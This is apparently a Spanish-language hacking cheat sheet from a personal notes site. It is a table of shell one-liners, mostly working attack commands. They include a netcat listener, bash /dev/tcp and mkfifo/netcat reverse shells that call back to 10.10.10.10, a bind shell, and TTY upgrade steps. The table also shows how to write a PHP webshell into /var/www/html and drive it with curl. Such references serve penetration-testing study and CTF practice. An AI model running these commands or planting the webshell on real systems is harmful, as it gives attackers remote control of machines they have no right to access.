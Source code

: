 ```yaml
---
{"dg-publish":true,"permalink":"/hacking/shells/basic-shells/","dgPassFrontmatter":true}
---
```




--------------------------------------------------------------------------
#shell #revshell 

---------

|                                                                                    |                                                                    |
| ---------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| **Uso de shells**                                                                  |                                                                    |
| `nc -lvnp 1234`                                                                    | Iniciar un agente de escucha en un puerto local`nc`                |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                              | Enviar un shell inverso desde el servidor remoto                   |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Otro comando para enviar un shell inverso desde el servidor remoto |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`      | Iniciar un shell de enlace en el servidor remoto                   |
| `nc 10.10.10.1 1234`                                                               | Conexión a un shell de enlace iniciado en el servidor remoto       |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                   | Shell de actualización TTY (1)                                     |
| `ctrl+z` luego luego luego dos veces`stty raw -echo``fg``enter`                    | Shell de actualización TTY (2)                                     |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                  | Crear un archivo php de webshell                                   |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                      | Ejecutar un comando en un webshell cargado                         |
